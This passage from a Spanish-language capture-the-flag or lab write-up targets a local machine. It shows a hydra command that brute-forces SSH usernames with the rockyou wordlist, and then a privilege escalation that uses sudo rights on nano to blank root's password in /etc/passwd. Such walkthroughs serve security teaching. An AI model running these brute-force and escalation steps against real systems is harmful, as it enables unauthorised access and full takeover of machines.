 Si hacemos una fuerza bruta al servicio ssh en busca de un usuario encontramos que sea llama lovely

```
hydra -L /usr/share/wordlists/rockyou.txt -p lapassworddebackupmaschingonadetodas ssh://172.17.0.2:5000 -t 16
```

<div align="left"><figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1).png" alt="" width="563"><figcaption></figcaption></figure></div>

Accedemos y vemos que tenemos privilegios de administrador para el comando nano

<div align="left"><figure><img src="../../../.gitbook/assets/image (5) (1) (1).png" alt="" width="563"><figcaption></figcaption></figure></div>

Podemos modificar el fichero /etc/passwd y quitando la x de root, quitamos la contraseña del usuario&#x20;

```
sudo /usr/bin/nano /etc/passwd
```
